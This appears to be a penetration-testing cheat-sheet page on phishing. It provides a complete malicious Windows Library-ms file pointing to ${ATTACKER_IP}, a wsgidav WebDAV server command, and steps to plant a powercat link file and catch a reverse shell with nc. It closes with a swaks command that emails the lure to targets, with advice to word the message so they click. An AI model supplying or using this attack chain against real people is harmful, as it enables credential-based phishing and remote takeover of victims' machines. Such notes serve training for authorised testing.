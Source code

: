 # Phishing

With a valid set of credentials for a mailserver of a domain, we can use swaks to send an email from an account.

The prep for this:

`config.Library-ms`:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://${ATTACKER_IP}</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

make a link-file with the powercat payload.

Setup a `wsgidav` listener (make the root dir beforehand):

```
~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ./webdav/
```

place the .link file in `./webdav` and write a body and header to social engineer the target to clicking the .link file in the `./webdav` folder.

have a `nc` listener ready on an approriate port.

When clicking the attacked `config.Library-ms` file on a windows machine, it will make a remote connection to the `wsgidav`-server and show it as if it's a local explorer.
Then, when the target clicks the link, we spawn a shell.


```
sudo swaks -t ${TARGET_1} -t ${TARGET_2} \
--from ${USER@DOMAIN} --attach @config.Library-ms \
--server ${MAIL_SERVER_IP} --body @body.txt \ 
--header "Subject: ${HEADER}" --suppress-data -ap
```
